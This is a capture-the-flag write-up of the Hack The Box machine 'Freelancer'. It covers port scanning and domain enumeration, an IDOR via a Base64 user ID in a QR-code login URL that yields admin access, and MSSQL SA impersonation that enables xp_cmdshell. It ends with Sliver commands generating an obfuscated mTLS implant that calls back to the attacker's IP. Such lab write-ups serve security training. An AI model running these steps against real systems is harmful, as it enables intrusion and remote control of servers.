










## Summary

The box starts with creating an account as `employer` which can be `activated` by abusing the `password reset function` on the page. As employer a `QR Code` can be downloaded which contains a `URL`. Part of the `URL` is the current users `ID` encoded as `Base64 string`. To get access to the `/admin` endpoint which can be enumerated by using `directory busting` it is necessary to replace the `user ID` with the `Base64 value` of `2` and then open the updated `URL`. After this step you can access `/admin` by browsing to `http://freelancer.htb/admin`. From the `admin panel` you can execute `MSSQL statements` via a `SQL Terminal`. For the `foothold` you have to impersonate `SA` and enable `xp_cmdshell`. Modifying your `payload` to `evade` basic `Windows security` get's you a shell on the system as `sql_svc`. From there on you can find a `password` which can be `reused` for `mikasaAckerman` in the users `Downloads` folder. The `privilege escalation` can be done by using `RunasCs`. As `mikasaAckerman` the `user.txt` can be obtained from the users `Desktop`. On the `Desktop` a file called `MEMORY.7z` as well as a `mail.txt` are showing the next steps for `privilege escalation` to `lorra199`. The `memory dump` can be mounted by using `MemProcFS`. Inside `registry hives` can be used with `impacket-secretsdump` to `exfiltrate` a `password`. Another `password reuse` on `lorra199` finally grants access via `Win-RM`. The new user has the `SeMachineAccountPrivilege` enabled. A quick look into a `BloodHound dump` shows that the user can use `Resource Based Constrained Delegration (RBCD)` on the `domain controller` to `escalate privileges` to `NT AUTHORITY\SYSTEM`.

## Table of Contents

- [Reconnaissance](#Reconnaissance)
  - [Port Scanning](#Port-Scanning)
  - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
  - [Domain Enumeration](#Domain-Enumeration)
  - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
- [Gain Access as Employer](#Gain-Access-as-Employer)
- [Privilege Escalation to admin](#Privilege-Escalation-to-admin)
- [Foothold](#Foothold)
  - [Code Execution via SQL Terminal](#Code-Execution-via-SQL-Terminal)
- [Enumeration](#Enumeration)
- [Privilege Escalation to mikasaAckerman through Password Reuse](#Privilege-Escalation-to-mikasaAckerman-through-Password-Reuse)
- [user.txt](#usertxt)
- [Pivoting](#Pivoting)
- [Analyzing Memory Dump](#Analyzing-Memory-Dump)
- [Privilege Escalation to lorra199](#Privilege-Escalation-to-lorra199)
- [Pivoting](#Pivoting)
- [Privilege Escalation to SYSTEM](#Privilege-Escalation-to-SYSTEM)
  - [Resource Based Constrained Delegation (RBCD)](#Resource-Based-Constrained-Delegation-RBCD)
- [root.txt](#roottxt)
- [Post Exploitation](#Post-Exploitation)

## Reconnaissance

### Port Scanning

We started with basic `port scanning` as usual. Worth mentioning here is that even with port `445/TCP` open, only port `80/TCP` was useful.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.7.9
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-01 15:03 EDT
Nmap scan report for 10.129.7.9
Host is up (0.014s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-02 00:04:03Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: freelancer.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: freelancer.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-02T00:04:05
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 5h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.66 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.129.7.9
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-01 15:05 EDT
Nmap scan report for 10.129.7.9
Host is up (0.013s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-02 00:08:06Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: freelancer.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: freelancer.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
62323/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-06-02T00:08:55
|_  start_date: N/A
|_clock-skew: 4h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 259.47 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sU 10.129.7.9   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-01 15:20 EDT
Nmap scan report for 10.129.7.9
Host is up (0.014s latency).
Not shown: 997 open|filtered udp ports (no-response)
PORT    STATE SERVICE      VERSION
53/udp  open  domain       Simple DNS Plus
88/udp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-06-02 00:20:54Z)
123/udp open  ntp          NTP v3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5070.55 seconds
```

### Enumeration of Port 445/TCP

It seemed that `SMB` was a dead end.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.7.9 -u '' -p '' --shares
SMB         10.129.7.9   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.129.7.9   445    DC               [+] freelancer.htb\: 
SMB         10.129.7.9   445    DC               [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

### Domain Enumeration

We looked for more information by `enumerating` the `domain`.

```c
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py 10.129.7.9
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.7.9
[*] Username ......... ''
[*] Random Username .. 'dzgvqpey'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ======================================
|    Listener Scan on 10.129.7.9    |
 ======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 =====================================================
|    Domain Information via LDAP for 10.129.7.9    |
 =====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: freelancer.htb

 ============================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.7.9    |
 ============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ==========================================
|    SMB Dialect Check on 10.129.7.9    |
 ==========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true                                                                                                                                                                                                                           
  SMB 2.1: true                                                                                                                                                                                                                            
  SMB 3.0: true                                                                                                                                                                                                                            
  SMB 3.1.1: true                                                                                                                                                                                                                          
Preferred dialect: SMB 3.0                                                                                                                                                                                                                 
SMB1 only: false                                                                                                                                                                                                                           
SMB signing required: true                                                                                                                                                                                                                 

 ============================================================
|    Domain Information via SMB session for 10.129.7.9    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC                                                                                                                                                                                                                  
NetBIOS domain name: FREELANCER                                                                                                                                                                                                            
DNS domain: freelancer.htb                                                                                                                                                                                                                 
FQDN: DC.freelancer.htb                                                                                                                                                                                                                    
Derived membership: domain member                                                                                                                                                                                                          
Derived domain: FREELANCER                                                                                                                                                                                                                 

 ==========================================
|    RPC Session Check on 10.129.7.9    |
 ==========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 ====================================================
|    Domain Information via RPC for 10.129.7.9    |
 ====================================================
[+] Domain: FREELANCER
[+] Domain SID: S-1-5-21-3542429192-2036945976-3483670807
[+] Membership: domain member

 ================================================
|    OS Information via RPC for 10.129.7.9    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                   
OS version: '10.0'                                                                                                                                                                                                                         
OS release: '1809'                                                                                                                                                                                                                         
OS build: '17763'                                                                                                                                                                                                                          
Native OS: not supported                                                                                                                                                                                                                   
Native LAN manager: not supported                                                                                                                                                                                                          
Platform id: null                                                                                                                                                                                                                          
Server type: null                                                                                                                                                                                                                          
Server type string: null                                                                                                                                                                                                                   

 ======================================
|    Users via RPC on 10.129.7.9    |
 ======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 =======================================
|    Groups via RPC on 10.129.7.9    |
 =======================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 =======================================
|    Shares via RPC on 10.129.7.9    |
 =======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ==========================================
|    Policies via RPC for 10.129.7.9    |
 ==========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ==========================================
|    Printers via RPC for 10.129.7.9    |
 ==========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 7.42 seconds
```

After we added all relevant information to our `/etc/hosts` file we started investigating the content on the website.

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.7.9      freelancer.htb
10.129.7.9      dc.freelancer.htb
```

### Enumeration of Port 80/TCP

As we accessed the box on port `80/TCP` using the `IP address`, we got redirected to `freelancer.htb`. 

- [http://10.129.7.9/](http://10.129.7.9/)

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts 
127.0.0.1       localhost
127.0.1.1       kali
10.129.7.9      freelancer.htb
```

- [http://freelancer.htb/](http://freelancer.htb/)



```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://freelancer.htb
http://freelancer.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[support@freelancer.htb], HTML5, HTTPServer[nginx/1.25.5], IP[10.129.7.9], JQuery, Script, Title[Freelancer - Job Board & Hiring platform], UncommonHeaders[cross-origin-opener-policy,referrer-policy,x-content-type-options], X-Frame-Options[DENY], nginx[1.25.5]
```

We crawled the `Job Dashboard` and found some potential `usernames` in the comments but they were `not required` for the `foothold`.



#### Directory Busting

We also found an `/admin` endpoint using `dirsearch` for `Directory Busting`.

```c
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://freelancer.htb/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_freelancer.htb/__24-06-01_15-23-46.txt

Target: http://freelancer.htb/

[15:23:46] Starting: 
<--- CUT FOR BREVITY --->                                 
[15:23:54] 302 -    0B  - /admin/_logs/err.log  ->  /admin/login/?next=/admin/_logs/err.log
[15:23:54] 302 -    0B  - /admin/account.js  ->  /admin/login/?next=/admin/account.js
[15:23:54] 302 -    0B  - /admin/adminLogin.jsp  ->  /admin/login/?next=/admin/adminLogin.jsp
[15:23:54] 302 -    0B  - /admin/controlpanel.html  ->  /admin/login/?next=/admin/controlpanel.html
[15:23:54] 302 -    0B  - /admin/download.php  ->  /admin/login/?next=/admin/download.php
[15:23:54] 302 -    0B  - /admin/home  ->  /admin/login/?next=/admin/home   
[15:23:54] 302 -    0B  - /admin/phpmyadmin/index.php  ->  /admin/login/?next=/admin/phpmyadmin/index.php
[15:23:54] 302 -    0B  - /admin/scripts/fckeditor  ->  /admin/login/?next=/admin/scripts/fckeditor
<--- CUT FOR BREVITY --->
```

## Gain Access as Employer

While we played around with different options on how to register an account and if there could be any chance to escalate our privileges from a `freelancer` to `admin` for example, we found out that if we registered as `employer` we could `reset our password` to got an `valid account` to login with.






After `resetting the password `we could `login` and found ourselves on the `dashboard` of an `employer`.



## Privilege Escalation to admin

In the `QR Code` section we `right clicked` on the `QR Code` and opened it in a `new tab` to download a fresh and valid `QR Code`.



- [http://freelancer.htb/accounts/otp/qrcode/generate/](http://freelancer.htb/accounts/otp/qrcode/generate/)



We uploaded the `QR Code` to an `online QR Code reader` and checked the output.



The output contained a `Base64` portion which indicated our `user ID`.

```c
http://freelancer.htb/accounts/login/otp/MTAwMTE=/d2c4caf0ec6277d84766f37b43206a68/
```

```c
┌──(kali㉿kali)-[~]
└─$ echo 'MTAwMTE=' | base64 -d
10011
```

We replaced our `user ID` with the `ID` of `admin` and opened the `URL` in a `new tab` to got access as `admin`.

```c
┌──(kali㉿kali)-[~]
└─$ echo 'Mg==' | base64 -d                            
2
```

```c
http://freelancer.htb/accounts/login/otp/Mg==/d2c4caf0ec6277d84766f37b43206a68/
```



## Foothold
### Code Execution via SQL Terminal

Next we headed back to the `/admin` endpoint and found several tasks we could perform as admin and also a `SQL Terminal` from which we could execute `SQL statements`.

- [http://freelancer.htb/admin/](http://freelancer.htb/admin/)

We `impersonated` the `SA` user to enable `xp_cmdshell` and to gain `code execution`.

```c
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'Show Advanced Options', 1; 
RECONFIGURE; 
EXEC sp_configure 'xp_cmdshell', 1; 
RECONFIGURE;
EXEC xp_cmdshell 'ping -n 3 10.10.14.58';
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo tcpdump -envi tun0 icmp
[sudo] password for kali: 
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:01:44.613474 ip: (tos 0x0, ttl 127, id 61060, offset 0, flags [none], proto ICMP (1), length 60)
    10.129.7.9 > 10.10.14.58: ICMP echo request, id 1, seq 151, length 40
17:01:44.613564 ip: (tos 0x0, ttl 64, id 61998, offset 0, flags [none], proto ICMP (1), length 60)
    10.10.14.58 > 10.129.7.9: ICMP echo reply, id 1, seq 151, length 40
17:01:45.623297 ip: (tos 0x0, ttl 127, id 61761, offset 0, flags [none], proto ICMP (1), length 60)
    10.129.7.9 > 10.10.14.58: ICMP echo request, id 1, seq 152, length 40
17:01:45.623303 ip: (tos 0x0, ttl 64, id 62161, offset 0, flags [none], proto ICMP (1), length 60)
    10.10.14.58 > 10.129.7.9: ICMP echo reply, id 1, seq 152, length 40
17:01:46.639006 ip: (tos 0x0, ttl 127, id 62452, offset 0, flags [none], proto ICMP (1), length 60)
    10.129.7.9 > 10.10.14.58: ICMP echo request, id 1, seq 153, length 40
17:01:46.639038 ip: (tos 0x0, ttl 64, id 62172, offset 0, flags [none], proto ICMP (1), length 60)
    10.10.14.58 > 10.129.7.9: ICMP echo reply, id 1, seq 153, length 40
```

The easiest way to get a shell on the box was to use `Sliver` to bypass whatever was running on the box.

```c
sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #1
```

```c
sliver > generate --mtls 10.10.14.58 --os windows --arch amd64 --disable-sgn --format shellcode --save /tmp/

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 21s
[!] Shikata ga nai encoder is disabled
